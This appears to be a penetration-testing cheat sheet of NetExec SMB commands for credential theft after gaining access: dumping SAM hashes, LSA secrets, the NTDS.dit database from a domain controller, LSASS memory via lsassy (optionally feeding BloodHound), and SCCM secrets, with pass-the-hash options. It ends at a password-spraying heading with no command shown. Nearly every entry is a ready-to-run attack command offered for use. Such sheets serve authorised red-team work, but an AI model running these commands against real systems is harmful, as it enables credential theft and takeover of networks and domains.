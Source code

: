 ## smb - Dump SAM
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

Dump SAM hashes using methods from secretsdump.py
You need at least local admin privilege on the remote target, use option --local-auth if your user is a local account

```bash
nxc smb <ip> -u <user> -p <password> -d <domain_fqdn> --sam
```

## smb - Dump LSA
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

Dump LSA secrets using methods from secretsdump.py
Requires Domain Admin or Local Admin Privileges on target Domain Controller

```bash
nxc smb <ip> -u <user> -p <password> -d <domain_fqdn> --lsa
```

## smb - dump ntds.dit
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

Dump the NTDS.dit from target DC using methods from secretsdump.py
Requires Domain Admin or Local Admin Privileges on target Domain Controller

```bash
nxc smb <ip> -u <user> -p <password> -d <domain_fqdn> --ntds
```

## smb - dump lsass
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

```bash
nxc smb <ip> -u <user> -p <password> -d <domain_fqdn> -M lsassy
```

## smb - dump lsass - with bloodhond update
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

```bash
nxc smb <ip> --local-auth -u <user> -H <nt_hash> -M lsassy -o BLOODHOUND=True NEO4JUSER=<user|neo4j> NEO4JPASS=<neo4jpass|exegol4thewin>
```

## smb - dump sccm 
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

```bash
nxc smb <ip> --local-auth -u <user> -H <nt_hash> --sccm [{wmi,disk}]
```

## smb - password spray (user=password)
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/BRUTEFORCE-SPRAY 
